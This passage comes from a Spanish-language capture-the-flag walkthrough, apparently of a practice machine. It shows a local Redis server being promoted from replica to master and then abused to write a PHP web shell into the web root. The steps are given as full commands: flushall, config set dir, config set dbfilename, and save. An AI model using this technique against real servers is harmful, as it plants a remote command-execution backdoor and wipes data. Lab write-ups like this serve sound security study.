 Se puede visualizar que se esta alojando un servicio [Redis][redis2]

{% highlight bash %}
root@kali# sudo redis-cli -h 127.0.0.1
127.0.0.1:6379> info
.
.
.
.
.
.
# Replication
role:slave
{% endhighlight %}

Actualmente tenemos el rol de "slave", elevaremos privilegios a "master"

{% highlight bash %}
root@kali# slaveof no one
OK
(0.55s)
127.0.0.1:6379> info
.
.
.
.
.
.
# Replication
role:master
{% endhighlight %}

Segun [hacktrickz][redis1], podemos subir una shell .php utilizando el directorio obtenido desde el codigo fuente, de la siguiente forma:

{% highlight bash %}
root@kali# (echo -e "\n\n"; cat shell.php; echo -e "\n\n") > spok.php
root@kali# cat spok.php 

<?php system($_REQUEST['spok']); ?>

root@kali# redis-cli -h 127.0.0.1 flushall
OK
root@kali# cat spok.php | redis-cli -h 127.0.0.1 -x set crackit
OK
root@kali# redis-cli -h 127.0.0.1
127.0.0.1:6379> config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
OK
(0.56s)
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/www/html/8924d0549008565c554f8128cd11fda4"
(0.55s)
127.0.0.1:6379> config set dbfilename "spok.php"
OK
(0.56s)
127.0.0.1:6379> save
OK
(0.55s)
127.0.0.1:6379>
{% endhighlight %}


[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/